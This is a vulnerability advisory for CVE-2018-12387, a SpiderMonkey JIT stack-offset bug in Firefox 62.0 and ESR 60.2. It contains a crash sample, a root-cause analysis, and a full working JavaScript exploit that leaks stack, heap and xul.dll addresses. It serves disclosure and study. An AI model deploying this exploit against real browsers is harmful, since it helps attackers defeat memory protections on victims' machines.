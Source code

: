 **Vulnerabilities Summary**<br>
A vulnerability where the JavaScript JIT compiler inlines Array.prototype.push with multiple arguments that results in the stack pointer being off by 8 bytes after a bailout. This leaks a memory address to the calling function which can be used as part of an exploit inside the sandboxed content process.

**Vendor Response**<br>
The security vulnerability was fixed in Firefox 62.0.3 and Firefox ESR 60.2.2

**CVE**<br>
CVE-2018-12387

**Credit**<br>
Independent security researchers, Bruno Keith and Niklas Baumstark, have reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

**Affected systems**<br>
Firefox 62.0
Firefox ESR 60.2
Vulnerability Details
While fuzzing Spidermonkey (Mozilla’s JavaScript engine written in C++), we trigger a debug assertion with the following minimized sample:
```JavaScript
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	var sz = Array.prototype.push.call(a, 42, 43);
	(function () {
		sz;
	})(new Boolean(false));
}
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(2);
```
which triggered the following assertion:<br>
```
Assertion failure: isObject() and crashes in release
build
```

**Root Cause Analysis**<br>
The assertion described above happens while running the code generated by the JIT compiler for the function f.
Let’s look at the Intermediate representation (IR) of the JIT code:
<img src="https://blogs.securiteam.com/wp-content/uploads/2018/10/just-in-time-inermediate-representation-infloleak.png" align="left"><br>

We can see two instructions arraypusht. This can be explained looking at the code responsible for inlining calls to Array.prototype.push implemented at https://dxr.mozilla.org/mozilla-central/source/js/src/jit/MCallOptimize.cpp#812 The comments inside the function mention that a call to push with multiple argument will be broken down into multiple individual arraypush{t,v} instructions. However there is some complicated logic associated with bailouts where they wish to preserve the atomicity of the call and not resume execution in-between inlined calls to push. The assertion is triggered because the stack pointer is not correctly restored when bailing out from IonMonkey to the baseline JIT and will be off by 8 bytes and hence lead to a JS_IS_CONSTRUCTING value to be fetched from the stack instead of the Boolean class.
By understanding the failure condition, we know that we need to look for opcode handlers in BaselineCompiler.cpp that perform a syncStack(0) and then address stack values via peek(). An interesting one is BaselineCompiler::emit_JSOP_INITPROP:
```c++
// Load lhs in R0, rhs in R1.
 frame.syncStack(0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-2)), R0);
 masm.loadValue(frame.addressOfStackValue(frame.peek(-1)), R1);
 // Call IC.
 ICSetProp_Fallback::Compiler compiler(cx);
 if (!emitOpIC(compiler.getStub(&stubSpace_)))
     return false;
 // Leave the object on the stack.
 frame.pop();
```
This opcode is emitted for the following JavaScript code:

```JavaScript
function f() {
	var y = {};
	var o = {
		a: y
	};
}
dis(f);
 /* bytecode:
 00000: newobject ({}) # OBJ
 00005: setlocal 0 # OBJ
 00009: pop #
 00010: newobject ({a:(void 0)}) # OBJ
 00015: getlocal 0 # OBJ y
 00019: initprop "a" # OBJ
 00024: setlocal 1 # OBJ
 00028: pop #
 00029: retrval #
 */
```

The handler tells us how this opcode gets compiled: R0 is set to stack[top-1] = o, R1 is set to stack[top] = y, then the property assignment R0.a = R1 is performed by an inline cache. Due to the shifted stack however, in the following code, the assignment stack[top].a = stack[top+1] is performed, so a JSValue is fetched from outside the stack. Due to NaN-boxing, a native pointer value will be treated as a double in this context.
```JavaScript
var test = {
	a: 13.37
};
function f(o) {
	var a = [o];
	a.length = a[0];
	var useless = function () {}
	useless + useless;
	var sz = Array.prototype.push.call(a, 1337, 43);
	(function () {
		sz
	})();
	var o = {
		a: test
	};
}
dis(f);
for (var i = 0; i < 25000; i++) {
	f(1);
}
f(100);
print(test.a);
```

```code
/* bytecode:
...
00034: lambda function() {} # FUN
00039: setlocal 1 # FUN
00043: pop #
00044: getlocal 1 # useless
00048: getlocal 1 # useless useless
00052: add # (useless + useless)
00053: pop #
00054: getgname "Array" # Array
00059: getprop "prototype" # Array.prototype
00064: getprop "push" # Array.prototype.push
00069: dup # Array.prototype.push Array.prototype.push
00070: callprop "call" # Array.prototype.push Array.prototype.push.call
00075: swap # Array.prototype.push.call Array.prototype.push
00076: getlocal 0 # Array.prototype.push.call Array.prototype.push a
00080: uint16 1337 # Array.prototype.push.call Array.prototype.push a 1337
00083: int8 43 # Array.prototype.push.call Array.prototype.push a 1337 43
00085: funcall 3 # Array.prototype.push.call(...)
...
00104: newobject ({a:(void 0)}) # OBJ
00109: getgname "test" # OBJ test
00114: initprop "a" # OBJ
00119: setarg 0 # OBJ
00122: pop #
00123: retrval #
```
Instruction 48 is there only to place a function on the stack so that the funcall instruction 85 does not throw an exception because it expects to fetch Array.prototype.push.call from the stack, but is off by 8. This prints 2.11951350117067e-310 on our system, which is the double representation of the integer value 0x27044d565235, which is a return address. The final exploit leverages this to leak a heap address, stack address as well as the base address of xul.dll.

**Exploit**<br>
```JavaScript
<script>
var convert = new ArrayBuffer(0x100);
var u32 = new Uint32Array(convert);
var f64 = new Float64Array(convert);
var BASE = 0x100000000;
function i2f(x) {
    u32[0] = x % BASE;
    u32[1] = (x - (x % BASE)) / BASE; ///
    return f64[0];
}
function f2i(x) {
    f64[0] = x;
    return u32[0] + BASE * u32[1];
}
function hex(x) {
    return `0x${x.toString(16)}`
}
var test = {a:0x1337};
function gen(m) {
    var expr = '1+('.repeat(m) + '{a:y}' + ')'.repeat(m);
    var code = `
    f = function(o) {
        var y = test;
        var a = [o];
        a.length = a[0];
        var useless = function() { }
        useless + useless + useless + useless + useless + useless;
        var sz = Array.prototype.push.call(a, 1337, 43);
        (function() { sz; })();
        var o = ${expr};
    }
    `;
    eval(code);
}
VERSION = '62.0';
function exploit() {
    var xul = 0;
    var stack = 0;
    var heap = 0;
    var leak = [];
    for (var i = 20; i >= 0; --i) {
        gen(i);
        for (var j = 0; j < 10000; j++) {
            f(1);
        }
        f(100);
        var x = f2i(test.a);
        leak.push(x);
    }
    function xulbase(addr) {
        if (VERSION == '62.0') {
            var offsets = [
                0x92fe34,
                0x3bd4108,
            ];
        } else {
            alert('Unknown version: ' + VERSION);
            throw null;
        }
        var res = 0;
        offsets.forEach((offset) => {
            if (offset % 0x1000 == addr % 0x1000) {
                res = addr - offset;
            }
        });
        return res;
    }
    xul = xulbase(leak[1]);
    stack = leak[0];
    heap = leak[3];
    var el = document.createElement('pre');
    el.innerText = (
        "XUL.dll base: " + hex(xul) + "\n" +
        "Stack: " + hex(stack) + "\n" +
        "Heap: " + hex(heap) + "\n" +
        "\nFull leak:\n" + leak.map(hex).join("\n"))
    document.body.appendChild(el);
}
</script>
<button onclick="exploit()">Go</button>
```
